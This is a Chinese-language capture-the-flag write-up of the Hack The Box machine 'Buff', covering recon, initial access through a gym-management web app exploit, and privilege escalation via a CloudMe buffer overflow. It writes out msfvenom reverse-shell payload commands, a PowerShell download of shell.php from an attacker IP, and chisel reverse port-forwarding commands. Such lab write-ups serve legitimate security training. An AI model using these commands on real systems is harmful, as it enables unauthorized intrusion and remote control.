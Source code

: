 # Buff
- URL : https://app.hackthebox.eu/machines/263
- IP : 10.129.2.18

## Recon
- 掃 Port
    -  ![](https://i.imgur.com/yL8iY6M.png)
- 掃目錄
    - ![](https://i.imgur.com/Y7oU0b5.png)
    - `/Readme.md`
        - ![](https://i.imgur.com/WmFd25G.png)
- 觀察首頁
    - ![](https://i.imgur.com/bzW40SX.png)
    - ![](https://i.imgur.com/SLSkSSK.png)
        - SQL 檔案
        - ![](https://i.imgur.com/9ocQOrC.png)
- 找到專案 Project
    - https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
    - ![](https://i.imgur.com/yUMlONu.png)
    - ![](https://i.imgur.com/LvcGkGa.png)
        - 預設密碼，登入失敗
- 試用 Exploit
    - ![](https://i.imgur.com/lpfFpjB.png)
- 準備另外一個 reverse shell
    - ![](https://i.imgur.com/ffRLY8D.png)
- 確認 Systeminfo
    - ![](https://i.imgur.com/Z9CEOFQ.png)
- 取 Userflag
    - ![](https://i.imgur.com/9AWNGuu.png)
    - ![](https://i.imgur.com/q33pwEX.png)

## 提權
- 確認 Defender 有開
    - ![](https://i.imgur.com/FFttCr6.png)
- 產 Shell
    - `msfvenom -p php/reverse_php LHOST=10.10.16.35 LPORT=7877 -f raw > shell.php`
    - `powershell -c "wget http://10.10.16.35/shell.php -outFile shell.php"`
- 亂逛系統
    - ![](https://i.imgur.com/fW23r7Q.png)
- 觀察開的 Port
    - `netstat -ano -p tcp`
    - ![](https://i.imgur.com/Cm2GtjU.png)

- 觀察執行中的 Process
    - `tasklist`
    - ![](https://i.imgur.com/FmIgOk3.png)
- 發現 Downloads 資料夾有 `CloudMe_1122.exe`
    - ![](https://i.imgur.com/IxszMnz.png)
    - ![](https://i.imgur.com/yZ8055X.png)
- 觀察開的 Port
    - ![](https://i.imgur.com/XuKH90a.png)
    - 8888 但他只綁 127.0.0.1
## Exploit
- 本地端執行
    - `./chisel server -p 9999 --reverse`
- 遠端執行
    - `chisel.exe client 10.10.16.35:9999 R:8888:127.0.0.1:8888`
    - 把 Port 轉回 127.0.0.1:8888
- 收封包
    - ![](https://i.imgur.com/7j9ouzo.png)
- 使用 Exploit
    - https://www.exploit-db.com/exploits/48389
- 修改 shell code
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.35 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python`
    - ![](https://i.imgur.com/42hWoXQ.png)
- 收 Reverse shell
    - ![](https://i.imgur.com/7FdFbwy.png)
- 取得 Root flag
    - ![](https://i.imgur.com/xJEo9ey.png)
